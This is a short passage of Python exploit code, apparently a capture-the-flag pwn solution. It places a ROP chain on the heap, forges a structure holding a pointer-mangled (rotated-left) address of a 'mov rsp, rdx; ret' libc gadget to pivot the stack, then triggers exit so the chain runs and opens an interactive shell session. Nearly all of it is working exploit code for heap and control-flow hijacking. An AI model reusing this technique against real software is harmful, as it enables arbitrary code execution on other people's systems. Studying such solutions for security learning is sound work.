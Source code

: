 ```python
#----------------------------------------------------
# prepare our rop
a(0xf8, myrop)

# gadget we will use to pivot on ROP
gadget0 = libc.address + 0x000000000005a170 # mov rsp, rdx ; ret

# trigger
a(0x48, b'aaaaaaaa')
fake = b''
fake += p64(0)+p64(libc.address-0x2900)+p64(0)*2

# where do we jump, address need to be rotated left 17 bites , we will use a mov rsp,rdx / ret gadget to pivot on stack were we want
fake +=  p64(rol(gadget0,0x11,64))  # where do we jump
fake +=  p64(0xdeadbeef)	# first arg goes in rdi
fake +=  p64(0xdeadbeef)        # 
fake +=  p64(libc.address - 0x2888)        #  arg goes in rdx , so address of our ROP where we pivot ideally ready on heap

a(0x48, fake)
# exit , so our rop will be executed
r.sendlineafter(b'mand: ', b'5')

r.interactive()
r.close()
```

*nobodyisnobody still on the pwn side..*